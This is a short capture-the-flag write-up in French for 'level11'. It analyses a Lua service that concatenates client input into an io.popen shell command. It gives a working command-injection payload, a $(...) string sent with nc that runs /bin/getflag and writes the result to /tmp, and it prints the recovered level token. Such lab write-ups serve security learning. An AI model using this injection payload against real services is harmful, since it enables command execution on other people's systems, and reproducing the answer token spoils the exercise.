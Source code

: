 # level11

1. Fichiers trouvés dans `~/` :

```bash
level11.lua
```

---

2. Analyse rapide du script `level11.lua`

* Le service écoute `127.0.0.1:5151` et lit une ligne fournie par le client.
* Il exécute ensuite :

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

* Problème : la variable `pass` est **concaténée** directement dans une commande shell → **injection shell possible** (substitutions `$(...)`, backticks, `;`, redirections, etc.).

---

3. Vulnérabilité & objectif

* Le processus s'exécute avec les droits de `flag11` → l'objectif est d'exécuter `/bin/getflag` côté serveur et d'écrire la sortie dans un fichier lisible par l'utilisateur.

---

4. Exploitation

```bash
# envoyer le payload au service (depuis la même machine, car le service bind 127.0.0.1)
echo '$(/bin/getflag > /tmp/flag11; chmod 644 /tmp/flag11)' | nc 127.0.0.1 5151

# récupérer le token créé
cat /tmp/flag11
```

5. Token decouvert

Le token est `fa6v5ateaw21peobuub8ipe6s`
